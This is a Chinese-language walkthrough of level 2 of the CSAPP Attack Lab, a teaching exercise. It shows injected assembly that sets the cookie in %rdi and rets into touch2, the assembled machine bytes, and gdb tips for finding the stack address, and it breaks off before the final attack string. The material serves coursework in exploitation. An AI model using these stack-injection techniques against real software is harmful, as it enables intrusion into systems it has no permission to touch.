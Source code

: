 任务：让ctarget执行touch2的代码，而不是返回到test，然后必须在此基础上将cookie作为参数传递给touch2

思路：前一部分的思路还是和level1一样的，后一部分的思路就是通过%rdi（地一个参数的寄存器将cookie传递给touch2）



必要的信息

```
0x4017ec touch2.c函数地址
Cookie: 0x59b997fa
```

根据官方文档的提示，这次需要用到反汇编程序了，我们的思路是这样的，先写出汇编代码作为字符串，然后编译我们的汇编文件得到.o可执行文件，然后再反汇编查看机器代码，然后我们再构建攻击字符串

> 再次重申为什么可以这么做，因为该程序栈每次的位置是不变的，我们**很容易找到栈的位置**，并且这个实验中栈是**可执行的，所以可以采用字符串注入为可执行代码**，并且这个栈没有金丝雀值，所以我们可以**用某种手段修改程序的走向，比如level1采用的手段，直接返回到了touch1函数**

构建汇编代码level2inject.s

这里不能使用jmp和call，因为这些代码的目标地址代码难以确定，所以我们使用ret作为控制转移，使用push作为调用函数

深入理解ret：从栈顶指针指向的内存位置读取8字节，然后将这个值加载到%rip（PC），然后PC就会根据这个8字节的地址进行跳转了，这样就实现了跳转touch2函数的结果

下面的汇编代码的意思是，将cookie作为第一个参数放入寄存器，然后将touch2函数的地址压入栈，栈指针再次下移，然后存入touch2的函数地址，根据上面介绍的ret，跳转到ret，执行完touch2函数

```asm
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

```
lyjy@Lenovo:~/CSAPP/attacklab$ gcc -c level2inject.s 
level2inject.s: Assembler messages:
level2inject.s: Warning: end of file not at end of a line; newline inserted
lyjy@Lenovo:~/CSAPP/attacklab$ objdump -d level2inject.o > level2inject.d
```

```
//反汇编
level2inject.o:     file format elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    
```

详细执行流程：程序开始还是执行test，然后test调用执行getbuf，getbuf读取我们输入的攻击字符串，里面有我们写的汇编代码对应的机器码，执行到getbuf的ret后，应该返回test的地址，我们让其返回我们注入代码的地址（**重定向**），这时我们的写的攻击字符串就作为可执行代码开始执行了，然后通过我们写的代码再调用touch2函数，完美完成任务

![img](Attack Lab.assets/v2-756b1103cb9b4bec6e350e7a49cf7137_1440w.jpg)

所以我们还需要计算注入代码的地址，即调用getbuf后栈顶的地址

> 使用gdb ctarget进入调试，但是一开始我使用`run`指令调试会出现`Program received signal SIGSEGV,Segmentation fault`错误且不能在正确的断点处中断。将`run`加上参数`run -q -i phase2.txt`即可正确调试。
>
> 并且打断点的时候一定要打到break *0x4017ac，就是getbuf %rsp分配栈空间的那一行，不要打到函数名那里
